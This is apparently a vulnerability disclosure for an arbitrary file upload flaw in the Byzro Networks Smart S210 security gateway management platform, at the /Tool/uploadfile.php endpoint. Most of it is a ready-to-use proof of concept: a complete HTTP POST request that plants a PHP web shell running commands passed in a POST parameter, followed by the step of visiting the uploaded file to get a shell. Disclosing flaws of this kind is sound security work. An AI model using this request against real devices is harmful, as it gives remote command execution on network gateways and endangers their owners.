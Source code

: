 There is an arbitrary file upload vulnerability in Byzro Networks Smart S210 multi-service security gateway intelligent management platform

version:S210

Vulnerability location:/Tool/uploadfile.php

1. The login interface is as shown in the figure.
![image](https://github.com/aknbg1thub/cve/assets/105481616/9ddc1e61-dc46-4c6f-91be-cd7c89d94bf3)

2. Construct POC and upload src.php file
POC
```
POST /Tool/uploadfile.php? HTTP/1.1
Host: ip:port
Cookie: PHPSESSID=fd847fe4280e50c2c3855ffdee69b8f8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13979701222747646634037182887
Content-Length: 405
Origin: https://ip:port
Referer: https://ip:port/Tool/uploadfile.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------13979701222747646634037182887
Content-Disposition: form-data; name="file_upload"; filename="contents.php"
Content-Type: application/octet-stream

<?php
system($_POST["passwd"]);
?>
-----------------------------13979701222747646634037182887
Content-Disposition: form-data; name="txt_path"

/home/src.php
-----------------------------13979701222747646634037182887--
```
![image](https://github.com/aknbg1thub/cve/assets/105481616/5519c0b2-2c57-4bc0-a45e-ca8718cbcaa2)

3. Visit /home/src.php to get webshell.
![image](https://github.com/aknbg1thub/cve/assets/105481616/ed54bb77-362a-468d-96ae-4dfd1f9a9b4f)
